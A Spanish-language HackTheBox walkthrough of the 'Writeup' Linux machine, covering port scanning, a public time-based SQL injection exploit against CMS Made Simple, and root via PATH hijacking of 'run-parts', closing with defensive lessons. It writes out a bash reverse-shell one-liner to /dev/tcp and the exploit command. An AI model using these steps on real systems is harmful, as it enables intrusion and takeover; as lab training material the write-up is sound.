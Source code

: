 ```yaml
---
title: HackTheBox Writeup
date: 2021-07-25 12:00:00 -0400
image: 
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/banner.png
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [sqli, path hijacking, web, cms]
---
```


***

**Machine IP** : 10.10.10.138

**DATE**  : 25/07/2021

***

## Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/matrix.png)

## Reconocimiento


Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

Usamos el siguiente comando para escanear todos los puertos de una manera rapida.

```bash
nmap -p- --open -T5 -v -n -Pn 10.10.10.138
```

Posteriormente utilizamos este comando con los puertos del anterior escaneo para saber las versiones de cada servicio.

```bash
nmap -sC -sV -n -p22,80 -Pn 10.10.10.138
```

Nos arroja este resultado:

```bash
~  nmap -sC -sV -p22,80 10.10.11.138 -Pn                                                                                                                                                        4s   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 11:07 EDT
Nmap scan report for 10.10.11.138
Host is up.

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.70 seconds

```

Podemos observar dos puertos abiertos, el `22` que pertenece a `ssh` y el `80` que es un `http`, procederemos a revisar la web que corre en el servicio http y haremos una busqueda de directorio con `gobuster`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/web.png)

Al parecer el servidor web está protegido a Dos, por eso gobuster no puede hacer su trabajo, revisando `robots.txt` una ruta muy comun en los ctf, podemos ver que tiene el directorio writeup oculto.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/robots.png)

Al revisar ese directorio solo son writeups de otras maquinas, pero al escanear la página con Wappalizer podemos observar que está hecho con `CMS Made Simple`, lo cual parece curioso.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/wappa.png)

Al investigar exploits en esta tecnología nos encontramos con un [SQL Injection Exploit](https://www.exploit-db.com/exploits/46635)

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/exploitdb.png)

Este exploit es un `sql injection basado en tiempo`, lo que hace es dumpear las credenciales del portal y nos la entrega junto con la contraseña que esta hasheada, pero tiene una opcion para hacer bruteforce a la contraseña.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/sql.png)

Luego de descargarnolos, ejecutamos el `exploit` con el comando

```bash
python2 exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt 
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/creden.png)

Con estas credenciales nos logeamos via `ssh` con el usuario `jkr` y obtenemos el `user.txt`.


## Escalamiento de privilegios

Luego de obtener acceso como el usuario `jkr`, probé con `sudo -l` para listar los `binarios` que se pueden ejecutar como sudo, pero no tenia privilegios, luego vi los grupos en los que estaba el usuario jkr y habia uno llamado `staff`, investigando un poco encontré que este grupo puede crear archivos dentro de `usr/local/bin`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/id.png)

Luego listé los procesos que se ejectuban en la maquina con la herramienta [pspy](https://github.com/DominicBreuker/pspy), luego de esto como no encontré nada, pedí ayuda a unos colegas y me dijeron que revise los procesos llamados cuando se iniciaba sesion son `ssh`, en otra terminal me logeé y al momento de logearme via ssh ocurría esto en la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/pspy.png)

Como podemos observar se ejecuta el comando `run-parts` sin ruta absoluta, entonces podemos aprovechar para colar un archivo llamado run parts en los directorios del `path` y autoejecutarse al momento de que lo encuentre, esta vulnerabilidad se llama `Path Hijacking`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/path.png)

Hay varias formas de obtener `root` con esta vulnerabilidad, podemos crear una `reverse shell` en el archivo `run-parts` o simplemente asignar permisos SUID a la bash , en este caso crearemos una reverse shell con el comando.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/payload.png)

Luego le damos persmisos de ejecución con el comando

```bash
chmod +x run-parts
```
Por ultimos en otra terminal nos logeamos via ssh con el usuario `jkr` y obtenemos la `reverse shell` hacia nuestra maquina como el usuario `root`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/writeup/roottxt.png)

Finalmente nos metemos al directorio de `root` y observamos el `root.txt`.


## Conclusiones

Fue una buena maquina y nos deja unas cuantas lecciones...

No usar versiones antiguas de las tecnologías web y menos sabiendo que tienen vulnerabilidades criticas.

No manejar contraseñas faciles de descrifrar, se sugiere una constraseña con simbolos y mayusculas.

No asignar grupos con permisos de escritura como el de `staff` a un usuario no privilegiado.

Sanitizar el input del usuario para evitar `sql injections` basados en tiempo.

Gracias por leer, Happy hacking and always try harder!